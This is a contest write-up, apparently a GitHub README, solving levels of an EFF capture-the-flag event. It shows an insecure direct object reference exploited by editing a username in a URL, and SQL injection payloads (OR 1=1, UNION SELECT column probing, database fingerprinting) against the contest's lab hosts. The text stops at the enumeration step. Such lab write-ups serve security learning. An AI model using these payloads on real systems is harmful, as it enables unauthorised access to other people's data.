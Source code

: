 # Capture The Flag by EFF
https://eff-ctf.org

Capture The Flag by EFF is a hacking contest held at the Enigma Conference in San Francisco, CA on Tuesday January 26th 6:30 - 9:30 pm.  The following are my rough solutions to the problem set.  It is possible that the original problems will not be available in the future.  

### Level 0 The Social Notwork

A vulnerable web application that does not implement technical controls on viewing other users' inbox.  

Your inbox:

https://level0x0.eff-ctf.org/user/M1k3y/message/1

Replace user with usdhs for:

https://level0x0.eff-ctf.org/user/usdhs/message/1

![](./images/level0.png)


### Level 1 Tweeting Twerps

If there's no results or an error within the SQL statement, you will receive the message "Your SQL is bad and you should feel bad". 

The following lists all tweets and indicates that the form is vulnerable:
```
https://level0x1.eff-ctf.org/tweets?uid=1 OR 1=1--
```

Doing a union select, there are no errors received with two nulls, this indicates the correct number of columns to use:

```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null, null--
```

Testing string concatenation further indicates it's a MySQL DB, so we should be using MySQL syntax:
```
https://level0x1.eff-ctf.org/tweets?uid=3 UNION SELECT null,'test'+'ing'--
```

Enumerating, we start from the most general data down to more specific data.    
